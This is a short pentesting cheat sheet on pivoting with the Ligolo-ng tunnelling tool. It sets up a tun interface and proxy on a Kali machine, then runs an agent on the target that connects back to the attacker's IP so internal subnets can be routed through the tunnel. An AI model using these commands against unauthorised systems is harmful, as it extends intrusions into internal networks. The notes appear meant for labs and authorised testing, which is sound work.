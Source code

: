 # Ligolo

{% embed url="https://arth0s.medium.com/ligolo-ng-pivoting-reverse-shells-and-file-transfers-6bfb54593fa5" %}

### Set up on kali:

{% code overflow="wrap" %}
```shell
# Adds a new tun interface to our machine.
sudo ip tuntap add user kali mode tun ligolo

# Enables the new interface.
sudo ip link set ligolo up
```
{% endcode %}

Run proxy on kali:

{% code overflow="wrap" %}
```sh
# With the -selfcert flag the tool dynamically 
# generates self-signed certificates.

./proxy -selfcert
```
{% endcode %}

### Set up on target

{% code overflow="wrap" %}
```powershell
./agent -connect {kali_ip}:11601 -ignore-cert
```
{% endcode %}

### Add route

```sh
sudo ip route add 10.10.138.0/24 dev ligolo
```

Confirm route was added:

```shell
ip route list
```

Start tunnel (in ligolo interface)

```
start
```

### Commands in ligolo session

List sessions:

```
session
```



